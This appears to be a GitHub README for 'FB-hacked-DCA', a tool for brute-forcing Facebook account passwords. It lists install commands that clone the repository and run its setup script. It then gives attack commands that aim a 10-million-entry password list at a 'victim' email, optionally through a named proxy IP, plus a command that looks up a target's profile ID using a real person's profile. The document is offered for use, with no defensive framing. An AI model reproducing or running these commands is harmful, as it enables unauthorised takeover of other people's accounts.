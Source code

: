 # FB-hacked-DCA

#    Installation

apt update && apt upgrade -y
apt install git -y
git clone https://github.com/Tan-vai/FB-hacked-DCA
cd FB-hacked-DCA
bash setup
python hack.py


# use

# pkg can Use Victim email Or Facebook Profile Id:

 Brute Force On Facebook Account Without proxy:

Command: python hack.py -t victim@gmail.com -w 10MPASS.txt
Brute Force On Facebook Account With Proxy:

# Brute Force On Facebook Account With Proxy: 
Command: python hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129

# Get Target Facebook Profile ID:
Get Target Facebook Profile ID:
Command: python facebook_hack.py -g https://www.facebook.com/zuck

